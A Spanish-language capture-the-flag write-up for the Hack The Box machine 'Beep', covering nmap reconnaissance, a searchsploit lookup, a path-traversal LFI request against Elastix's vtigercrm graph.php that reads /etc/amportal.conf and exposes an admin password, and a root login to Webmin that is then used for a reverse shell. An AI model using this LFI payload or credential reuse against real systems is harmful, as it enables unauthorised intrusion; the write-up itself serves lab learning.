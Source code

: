 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 16/10/2017'
---
```


# Beep

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.7
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **22 (SSH - OpenSSH 4.3)**: Versión antigua, posible explotación y fuerza bruta.
* **25 (SMTP - Postfix)**: Puede filtrar usuarios o permitir envío sin autenticación (open relay).
* **80/443 (HTTP/HTTPS - Apache 2.2.3)**: Versión vulnerable, revisar exploits y probar SQLi, XSS, LFI.
* **110/995 (POP3/POP3s - Cyrus)**: Posible captura de credenciales en texto claro, probar autenticación.
* **111 (RPCBind)**: Puede permitir enumeración y ejecución remota de código.
* **143/993 (IMAP/IMAPs - Cyrus)**: Posible ataque de autenticación o exploits específicos.
* **3306 (MySQL - Acceso no autorizado)**: Intentar acceso con credenciales por defecto.
* **4445 (Servicio desconocido)**: Revisar banners y comportamiento con `nc`.
* **10000 (Webmin - MiniServ 1.570)**: **Vulnerable a RCE**, buscar exploits.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,443,110,995,143,993,3306,4445,10000 -v 10.10.10.7
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Probamos credenciales por defecto pero no hay resultado. Vamos a ver si **Elastix** tiene alguna vulnerabilidad para explotar.

```bash
searchsploit elastix
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos una vulnerabilidad **LFI** por lo que la explotamos. Descargamos el archivo.

```bash
searchsploit -m php/webapps/37637.pl
```

Vemos el contenido.

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Observamos el exploit LFI que tiene por lo que es lo que hacemos a continuación.

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Al parecer aparecen unas credenciales.

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```
admin:jEhdIekWmdjE
```

Nos intentamos loguear con esas credenciales en el servicio **Webmin**.&#x20;

> Nota: las credenciales son root como usuario y misma contraseña.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Podemos ejecutar una tarea como root y eso hacemos para una Reverse Shell.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1233).png" alt=""><figcaption></figcaption></figure>
